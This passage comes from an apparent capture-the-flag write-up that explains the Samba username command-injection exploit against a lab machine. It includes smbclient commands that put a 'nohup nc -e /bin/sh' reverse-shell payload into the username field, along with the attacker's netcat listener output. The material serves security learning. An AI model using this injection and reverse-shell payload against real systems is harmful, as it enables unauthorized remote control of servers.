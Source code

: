                     handler
            end
    
    end
    

The key part is in `def exploit` at the bottom. It is creating an SMB session
using:

  * username = `/=`nohup [payload]``
  * password = random 16 characters
  * domain = user provided domain

So basically on Linux, `` `` are used to execute and put the output in place,
just like `$()`. It seems Samba is allowing that to happen inside the
username. Metasploit is calling `nohup` (which starts the process outside the
current context) and then a payload.

#### smbclient Fails

I’ll try this with `smbclient`. I’ll start a `nc` listener on 443. I can
connect to the share using `smbclient //10.10.10.3/tmp`. First I tried
specifying a user:

    
    
    root@kali# smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
    nohup: ignoring input and redirecting stderr to stdout
    

At my listener, I get a connection:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.14.24.
    Ncat: Connection from 10.10.14.24:48532.
    

Unfortunately, it’s from my local box. My `bash` is executing the `` `` before
sending the connection. I’ll swap the `"` for `'`:

    
    
    root@kali# smbclient //10.10.10.3/tmp -U './=`nohup nc -e /bin/sh 10.10.14.24 443`'
    Enter =`NOHUP NC -E \bin/sh 10.10.14.24 443`'s password:
    

For some reason, the start of the command is getting capitalized, which is
going to break execution.

#### smbclient success

It turns out there’s another way to login over `smbclient`, and that’s used
for changing users once connected with the `logon` command (I just hit enter
when prompted for a password):

    
    